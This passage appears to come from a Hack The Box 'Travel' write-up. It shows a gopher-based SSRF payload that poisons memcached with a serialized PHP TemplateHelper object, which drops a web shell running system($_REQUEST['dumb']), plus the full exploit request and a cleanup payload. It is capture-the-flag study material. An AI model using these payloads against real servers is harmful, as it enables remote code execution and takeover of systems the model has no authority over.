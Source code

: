 ```bash
example: O:5:"Hello":0:{}   : O:14:"TemplateHelper":2:{s:4:"file";s:11:"dumbx90.php";s:4:"data";s:35:"<?php system($_REQUEST['dumb']); ?>";}

Your gopher link is ready to do SSRF :

gopher://127.0.0.1:11211/_%0d%0aset%20SpyD3r%204%200%20111%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:11:%22dumbx90.php%22%3Bs:4:%22data%22%3Bs:35:%22%3C%3Fphp%20system%28%24_REQUEST%5B%27dumb%27%5D%29%3B%20%3F%3E%22%3B%7D%20%0d%0a

After everything done, you can delete memcached item by using this payload:

gopher://127.0.0.1:11211/_%0d%0adelete%20SpyD3r%0d%0a

-----------Made-by-SpyD3r-----------
```

 Copy the output to my *Burp Intruder* change some parameter like hash identifier of serialized object (the hash of ur feedmy.xml) and finally achieve my goal - A tiny but functional web shell. The steps are: 

1. Send the request below 

```php
GET /awesome-rss/?custom_feed_url=gopher://0x7f000001:11211/_%0d%0aset%20xct_4cdb6bff3e2c6550a0fcfe09581b39ad%204%200%20107%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:8:%22dumb.php%22%3Bs:4:%22data%22%3Bs:35:%22%3C%3Fphp%20system%28%24_REQUEST%5B%27dumb%27%5D%29%3B%20%3F%3E%22%3B%7D%20%0d%0a HTTP/1.1
Host: blog.travel.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

2. Chek *debug.php* to see if mencache was poised

<img src="https://raw.githubusercontent.com/dumbx90/dumbx90.github.io/master/assets/img/commons/hackthebox/travel/webshel-injected_serialization_php.png" alt="webshel-injected_serialization_php" style="zoom:75%;" />
